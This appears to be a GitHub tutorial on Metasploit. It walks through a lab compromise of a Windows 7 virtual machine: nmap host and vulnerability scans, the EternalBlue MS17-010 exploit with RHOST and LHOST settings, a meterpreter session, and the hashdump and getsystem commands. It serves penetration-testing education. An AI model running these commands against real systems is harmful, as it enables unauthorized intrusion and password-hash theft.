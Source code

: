 
# Metasploit

Metasploit is an exploitation framework (aka penetration framework) , build for security professional to support penetration testing.

**Most related alternative**

Cobalt strike – closed source/ commercial use only

## Why prefer Metasploit?
It supports and provides sufficient tools for almost all the phases of the penetration testing.

**Notations**
```mermaid
graph TB
A(Metasploit support)
B(Commercial version only)
style A fill:lightgreen,color:black,stroke:#333,stroke-width:1px
style B fill:orange,color:black,stroke:#333,stroke-width:1px

```
**Phases of penetration testing**
```mermaid
graph LR
A(Reconnance) --> B(Scanning)
B --> C(Gaining Access)
C --> D(Maintaining Access)
D --> E(Clearing Tracks)
E --> F(Reporting)

style A fill:lightgreen,color:black,stroke-width:1px
style B fill:lightgreen,color:black,stroke-width:1px
style C fill:lightgreen,color:black,stroke-width:1px
style D fill:lightgreen,color:black,stroke-width:1px
style E fill:lightgreen,color:black,stroke-width:1px
style F fill:orange,color:black,stroke-width:1px
```

## Modules provided by Metasploit?

 - exploits – the code that if executed takes advantage of the vulnerability to get unauthorized access to the desired system. Usually by the payload.

- payload – used by exploits. payload is a piece of code that are run by the target after successful exploitation (for backdoor, add new user, privilege escalation)

- Auxiliary – pre-exploitation features (scanning, fuzzing, sniffing)

- Encoders – to bypass firewall, IDS, IPS, Antivirus

- NOPS – no operation, use to ensure that if using multiple payloads, it is of same size. It ensures the proper execution of the instructions.

## How to Get Started?

### Metasploit Framework is Accessible Through:

 - Msfconsole [Metasploit Unleashed (offsec.com)](https://www.offsec.com/metasploit-unleashed/msfconsole/)
 - Armitage


**\#NOTE:** In case you are using any pen-testing OS like [Kali Linux](https://www.kali.org/) or [Parrot Security](https://www.parrotsec.org/), Metasploit  framework comes pre-installed with Msfconsole in them. 


## Penetrating Windows 7 Machine?

**Attacker's Machine:** Kali Linux 2022.2

**Target Machine:** Windows 7

**Prerequisite:** 

 - The environment is setup oracle vmware, in NAT connection 
 - The firewall of the windows is already disabled in this demonstration
 - The Attacker and Target machine is connected over the save network. i.e., they are in same subnet.  

### In Attacker's Machine:
<hr>
Open msfconsole
```bash
sudo msfconsole
```

**Finding the Target's IP**

Find your eth0 IP address, to identify subnet to scan, because as the target machine is connected with the same router, it must be in the same subnet as well.
```bash
msf> ifconfig
```
Let attaker's IP: 192.168.126.128
Running a simple no-port host discovery nmap scan on the sub-network to find the target's machine.
```bash
msf> nmap -sn 192.168.126.0/24
```
![scan 1  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan1.png)

One of this host could be the target machine we are looking for, so let's perform the osscan to be sure.
```bash
msf> nmap -O 192.168.126.0/24
```
![scan 2  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan2.png)
We found the IP address of the target machine.
Target IP: 192.168.126.132

**Finding Vulnerability in Target Machine**

Checking if the current version of OS the target machine is running on is having any publicly known vulnerability. This can be achieved by nmap script scan.
```bash
msf> nmap --script="vuln" 192.168.126.132
```
![scan 3  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan3.png)

We identified that the target's machine is vulnerable for remote code execution, by the exploit smb-vuln-ms17-010. more details could be gathered from [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143).

**Finding and Setting up the Exploit**

search is there is any exploit module available to exploit the Windows's SMB vulnerability ms17-101.

```bash
msf> search ms17 platform:windows
```

![exploit 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit1.png)


As we can see in the description of module index 0, it is mentioned that it provides an exploit named EternalBlue for MS17-010 vulnerability. We are going to use EternalBlue exploit, although you can also go for other modules.

```bash
msf> use 0
msf> show options
```

**NOTE:** You can use "show payload" to explore and change payload attached with the exploit.

![exploit 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit2.png)


As you can see, the place of RHOST is not set and mandatory to fill.

```bash
msf> set RHOST 192.168.126.132
```

![exploit 3 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit3.png)

**NOTE:** If your LHOST and LPORT is not set by default you can run following command to set LHOST to attacker's IP and LPORT to any random free port.
```bash
msf> set LHOST 192.168.126.128
msf> set LPORT 4444
```
**Exploiting to Gain Access**

After setting up the environment just type exploit or run to execute the payload.
```bash
msf> exploit
```

Wait for few seconds and you will see an active meterpreter session. To verify your access, you can run following commands.

```bash
meterpreter> sysinfo
meterpreter> pwd
```

![success 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/success1.png)

**Post Exploitation Steps**
commands like hashdump and getsystem could be used to perform privilege escalation. 

```bash
meterpreter> hashdump
meterpreter> getsystem
```

![success 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/success2.png)

However, it looks like the exploit we used also gave us the admin privilege in the provided meterpreter session.
